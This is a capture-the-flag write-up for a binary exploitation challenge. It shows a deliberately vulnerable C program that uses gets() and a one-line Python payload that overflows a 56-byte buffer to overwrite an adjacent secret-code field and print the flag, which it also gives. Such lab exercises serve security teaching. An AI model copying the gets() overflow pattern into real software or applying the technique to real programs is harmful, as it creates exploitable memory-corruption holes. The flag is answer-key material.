

# Secret Location

> Category: Binary Exploitation

> Points: 150

## Challenge Description

> translated: Ante is looking for a location to celebrate his birthday. He is planning to invite over 30 friends and therefore he isn't sure if a location as such exists that isn't booked. After some internet search, he managed to find an ideal restaurant, but it seems that the location is hidden. Can you help Ante find out the location so he could reserve the spots and celebrate his birthday?

> native: Ante traži lokaciju za proslavu svojeg rođendana. Međutim, planira pozvati preko 30 prijatelja pa nije siguran postoji li mjesto koje nije zauzeto, a prima toliki kapacitet ljudi. Nakon mukotrpnog pretraživanja interneta, uspio je pronaći idealan restoran, ali čini se da je lokacija skrivena. Možeš li pomoći Anti da otkrije lokaciju restorana kako bi mogao rezervirati mjesta i proslaviti svoj rođendan?

## Analysis

Let's look at the code again.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define FLAG_PATH "flag"
#define FLAG_SIZE 200

#define ODGOVOR_MAX 56
#define TOCAN_KOD 0x476b2336
#define KRIVI_KOD 0x4b895433

struct odgovor {
	char odgovor[ODGOVOR_MAX];
	uint32_t tajni_kod;
};

void ispisi_tajne_podatke()
{
	FILE *file;
	char flag[FLAG_SIZE];

	file = fopen(FLAG_PATH, "r");

	fgets(flag, sizeof flag, file);

	fclose(file);

	printf("%s\r\n", flag);
}

int main()
{
	struct odgovor tocan_odgovor, krivi_odgovor;

	tocan_odgovor.tajni_kod = TOCAN_KOD;
	krivi_odgovor.tajni_kod = KRIVI_KOD;
	
	puts("+--------------------------------------------------------------+");
	puts("Mislis da mozes saznati gdje se nalazimo? Testiraj svoje znanje.\r");
	puts("+--------------------------------------------------------------+");
	fflush(stdout);

	gets(krivi_odgovor.odgovor);

	if (krivi_odgovor.tajni_kod == TOCAN_KOD) {
		puts("Tocan odgovor!\r");
		ispisi_tajne_podatke();
	} else {
		puts("Krivi odgovor!\r");
	}

	puts("...\r");
	fflush(stdout);
	getchar();

	return 0;
}

```

Up in the defines, we have the correct code defined as `0x476b2336`. We need to overwrite the wrong_answer structure with the correct code value.

The app takes in an input of `odgovor`. That's a 56 character array.

We can just fill that with random letters or just A.

After that, we will overflow the input value into the secret_code field.

Since we have the hex written here, we can just use the little endian format and get it inside.

That means that we write the hex reversed, in 2-place increments.

The hex from above split: `47 6b 23 36`

We are writing: `\x36 \x23 \x6b \x47`

```py
print("A" * 56 + "\x36\x23\x6b\x47")
```

The result is: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6#kG`

And when we put it into our program we get the solution:



## FLAG

> CTF2021[323137855005]